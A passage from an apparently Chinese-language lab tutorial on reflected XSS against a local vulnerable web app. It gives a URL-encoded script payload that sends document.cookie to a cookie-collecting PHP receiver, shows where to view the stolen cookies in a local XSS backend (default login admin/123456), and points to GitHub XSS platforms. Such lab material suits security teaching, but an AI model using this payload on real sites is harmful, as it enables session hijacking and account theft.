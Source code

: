 这个 cookie.php 通过 GET 参数 cookie 来接收数据, 那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了, 基于此, 重新构造 URL

注意要做 URL 编码, 否则 "+" 连接符会被吃掉, 导致无法窃取 cookie

```
http://localhost/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Flocalhost%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```

打开 `http://localhost/pkxss/pkxss_login.php` 上 XSS 后台(第一次使用时按提示点安装, 然后用默认帐密登录: admin/123456 ), 可以看到已经成功窃取到 Cookie

![xss-19](./img/xss-19.png)

网上也有很多开源的 XSS 平台用来接收 Cookie, 在 GitHub 搜索就可以找到很多, 大多数可以直接通过 Docker 快速安装
